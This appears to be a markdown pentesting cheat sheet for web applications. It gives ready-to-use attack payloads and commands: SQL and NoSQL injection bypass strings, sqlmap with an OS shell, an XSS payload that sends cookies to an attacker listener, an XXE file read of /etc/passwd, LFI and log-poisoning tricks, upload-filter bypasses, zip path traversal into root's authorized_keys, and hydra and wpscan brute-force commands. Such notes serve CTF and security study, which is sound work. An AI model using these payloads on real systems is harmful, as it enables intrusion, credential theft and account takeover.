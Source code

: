 # Web-Applications

- [Web-Applications](#web-applications)
  - [Recon](#recon)
  - [SQL-Injection](#sql-injection)
  - [Server Side Template Injection](#server-side-template-injection)
  - [File Inclusion / Path traversal](#file-inclusion--path-traversal)
    - [PHP Backend](#php-backend)
  - [File Upload](#file-upload)
    - [Filters](#filters)
    - [Zip File Upload](#zip-file-upload)
  - [Regex Bypass](#regex-bypass)
  - [NoSQL-Injection](#nosql-injection)
  - [XML External Entities](#xml-external-entities)
  - [Wordpress](#wordpress)
  - [Brute Force Login](#brute-force-login)

## Recon

- web directories and subdomains
```
gobuster dir -u http://<target-ip> -w <wordlist> -x php,html
gobuster vhost -u http://<target-ip> -w <wordlist> --append-domain
```
- ``/robots.txt`` and ``/sitemap.xml``
- view source ``CTRL+U``
- view storage/cookies
- response headers
- 404 error page
- ``Wappalyzer`` (Browser Plugin): technologies used by a website
- ``nikto -h <url>``: web application vulnerabilities
- ``/.git/`` $\Rightarrow$ [git-dumper](https://github.com/arthaud/git-dumper)

## SQL-Injection

- authentication bypass
  ```
	' or 1=1 #
	' or '1'='1' #
	" or 1=1 --
	```
- sqlmap
  ```
  sqlmap -u "http://<target-ip>" --forms
  sqlmap -r request.txt --level 5 --risk 3 --batch
  sqlmap -u "http://<target-ip>" --os-shell
  ```

## Cross-Site-Scripting
    
```html
<script>alert("XSS")</script>
<img src=x onerror=this.src="http://<lhost>:<lport>/?cookie="+document.cookie>
```

## Server Side Template Injection

- input is reflected in response
- ``{{7*7}}`` $\Rightarrow$ 49?
- FUZZ string: ``${{<%[%'"}}%\.``
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

## File Inclusion / Path traversal

- example: ``http://example.com/index.php?page=home.html``
- interesting files:
  - ``/etc/passwd``: users and home directories
  - ``/etc/apache2/sites-enabled/000-default.conf``: default Apache configuration
  - ``/proc/self/cmdline``, ``/proc/self/environ``, ``/proc/self/status``
  - ssh keys
  - web-app files e.g. ``.htaccess`` and ``config.php`` 

### PHP Backend
- PHP wrappers
  - ``expect://id``
  - ``phar://exploit.zip/shell``: upload phar/zip archive and execute PHP file in the archive
  - [PHP filter chain](https://github.com/synacktiv/php_filter_chain_generator)
- Log Poisoning
  - Send request with PHP shell in the User-Agent and include the log file
  - ```
    /var/log/apache2/access.log
    /var/log/apache/access.log
    /var/log/apache2/error.log
    /var/log/apache/error.log
    /var/log/nginx/access.log
    /var/log/nginx/error.log
    ```

## File Upload

### Filters
- file extension
	- upload file with allowed extension and rename the file
  - double extension e.g. ``shell.php.jpg``
  - null byte: ``shell.php%00.jpg``
	- blacklist $\Rightarrow$ try alternative extensions
  	- PHP: phtml, pht, php3, php4, ...
  	- ASP: asp, aspx
- Content-Type Header
	- change header to allowed type
- magic bytes
	- change magic bytes in hex editor
	- [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

### Zip File Upload
- upload zip file with symlinks $\Rightarrow$ file read
- write files with path traversal through file names e.g. file with name ``../../../../../root/.ssh/authorized_keys``
- zip file upload + LFI + PHP backend $\Rightarrow$ phar injection

## Regex Bypass

Regex only checks first line $\Rightarrow$ put malicious payload in the second line
```
abc%0d%0a<script>alert("xss")</script>
abc%0d%0a{{7*7}}
```

## NoSQL-Injection

```
admin' || '1'=='1

username[$ne]=foo&password[$ne]=foo
{"username": {"$ne": "foo"}, "password": {"$ne": "foo"} }
```

## XML External Entities

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY passwd SYSTEM 'file:///etc/passwd'> ]>
<entry>&passwd;</entry>
```

## Wordpress

```
wpscan --url <url> -e u,t,p
wpscan --url <url> -U <users> -P <passwords> -t 50
```
- RCE: add PHP shell to theme

## Brute Force Login

```
hydra -L <users> -P <passwords> <target-ip> http-post-form "<path>:username=^USER^&password=^PASS^:<failure-string>"
```
